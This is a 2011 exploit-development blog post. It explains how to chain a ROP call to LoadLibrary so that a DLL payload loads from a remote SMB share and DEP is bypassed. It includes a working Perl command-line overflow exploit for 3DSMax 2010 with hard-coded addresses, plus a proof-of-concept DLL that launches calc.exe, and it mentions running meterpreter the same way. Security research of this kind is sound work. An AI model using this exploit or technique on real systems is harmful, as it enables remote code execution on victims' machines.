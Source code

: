 The unfairly forgotten API - using LoadLibrary with ROP
=======================================================

Original release date: 2011-07-22 03:47:46

ROP nowadays is a very popular method to bypass DEP. One can see lots of articles about VirtualProtect, HeapCreate, VirtualAlloc, etc. magic, but is seems, that people tend to forget about a very-very useful Windows API, LoadLibrary. It requires only one parameter, a pointer to a string, which is the path of the module to be loaded. The beauty of this is that the filename can be a UNC path, so the DLL can be loaded from a remote location. Another good thing is, that the DLL's entry point (DllMain, in most cases) is executed upon loading the image, so we don?t have to bother with jumping to the shellcode.

To sum it up: one can write the exploit in whatever high level language she wants (there is no sucking with bad characters, encoding, and stuff), load it from a remote location, and run it with only one API call which requires only one parameter. Moreover, LoadLibrary is imported in nearly all exes, so there is a great chance, that you'll find a call to it in a non ASLR-aware image.

Once I came up with the idea, I googled it, and there are some papers mentioning this stuff, but I think this method deserves more than just a couple of lines on a slide, so I wrote an exploit, and this paper.

One drawback I can think of is that you have to keep that DLL somewhere, and the victim machine has to be able to reach it. But besides that, I think it is pretty awesome to just load our payload as a DLL from somewhere on the network.

Anyways, just to see that it works, I'll show you a new 3DSMax 2010 exploit using this technique. The vuln in Max is pretty lame: if the given command line is long enough, EIP can be directly overwritten. One catch is that only a part of the command line is stored on the stack, so we have a very small buffer to put our shellcode in. At first I created a first stage payload which calls GetCommandLineA, and stores the entire command line which contains the second stage shellcode with the actual payload.

This worked indeed, but I wanted to bypass DEP. Started to think about it, and that's when the idea to use LoadLibrary came.

I created a DLL that executes the industry standard calc.exe in its DllMain. Here is the source code:

```
#include <shellapi.h>
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD   ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		ShellExecute(0, 0, L"calc.exe", 0 ,0, SW_SHOWNORMAL);
		break;
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

I built the DLL and copied it to a samba share (//pamparam/shared/test.dll).

![test.dll on samba share](img/smb.jpg)

OK, the payload is in its place, lets write the exploit itself! As I said earlier, this will only consist of creating the stack, and jump to LoadLibraryA. Here is the code:

```
$path = "c:\\\\FUZZTARGETS\\\\3dsmax2010\\\\3dsmax.exe";
$dllpath = "\\\\\\\\pamparam\\\\shared\\\\test.dll";
$padding = "A" x (258 - length($path) - length($dllpath));
#######################################################
# Address of LoadLibraryA function
$loadlibrary = "\\x7B\\x1D\\x80\\x7C";
######################################################
# Padding - this is where LoadLibraryA would return
$fakeret = "XXXX";
######################################################
# The address of the UNC path on the stack
$dllpathptr = "\\xA1\\xf0\\x12";
$argument = $dllpath . " " . $padding . $loadlibrary . $fakeret . $dllpathptr;
exec $path, $argument;
```

Running this code will start 3DSMax with a malicious command line that loads the DLL from our remote share, and starts the dreadful calculator :)

One more thing before I finish: practically all Windows APIs that work with file paths understand UNC paths, and this gives us the opportunity to have more fun. For example one can run a meterpreter exe from a remote share with only one call to WinExec.

You can download the exploit sources, this paper, and the test.dll here:

 - [This paper in english](files/loadlibrary_exploit_en.pdf)
 - [This paper in hungarian](files/loadlibrary_exploit_hu.pdf)
 - [The original exploit](files/3dsmax.pl)
 - [The LoadLibrary exploit](files/3dsmax_loadlibrary.pl)
 - [test.dll](files/test.dll)
 - [The source of the dll](files/dllmain.cpp)
